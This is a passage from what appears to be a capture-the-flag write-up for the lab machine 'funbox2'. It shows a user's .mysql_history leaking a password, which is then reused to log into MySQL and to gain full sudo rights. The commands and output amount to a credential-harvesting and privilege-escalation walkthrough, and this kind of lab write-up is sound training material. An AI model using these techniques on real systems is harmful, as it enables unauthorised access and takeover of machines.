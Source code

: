 Nothing else on the web server:
```
tom@funbox2:~$ cd /var/www/html
tom@funbox2:/var/www/html$ ls
index.html  robots.txt
```
No other users:
```
tom@funbox2:/home$ ls
tom
```
Checking out .mysql_history
```
_HiStOrY_V2_
show\040databases;
quit
create\040database\040'support';
create\040database\040support;
use\040support
create\040table\040users;
show\040tables
;
select\040*\040from\040support
;
show\040tables;
select\040*\040from\040support;
insert\040into\040support\040(tom,\040xx11yy22!);
quit
```
You can see there is what might be a password on the line insert into support ...

> tom:xx11yy22!

**Logging into mysql server:**
```
tom@funbox2:~$ mysql -u tom -p'xx11yy22!'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 3
Server version: 5.7.30-0ubuntu0.18.04.1 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
[SNIP] - NOTHING INTERESTING
```

Using the same password as mySQL for Tom's local password:
```
tom@funbox2:~$ sudo -l
[sudo] password for tom: 
Matching Defaults entries for tom on funbox2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tom may run the following commands on funbox2:
    (ALL : ALL) ALL
```
